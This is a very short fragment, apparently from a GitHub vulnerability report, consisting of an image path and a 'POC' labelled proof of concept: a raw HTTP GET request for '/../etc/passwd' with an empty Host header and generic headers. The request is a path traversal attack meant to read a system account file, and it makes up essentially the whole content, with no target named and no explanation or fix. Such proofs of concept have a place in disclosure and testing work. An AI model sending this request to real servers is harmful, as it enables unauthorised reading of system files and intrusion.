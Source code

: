 POC:

GET /../etc/passwd HTTP/1.1

Host:

Accept: */*

Content-Type: application/x-www-form-urlencoded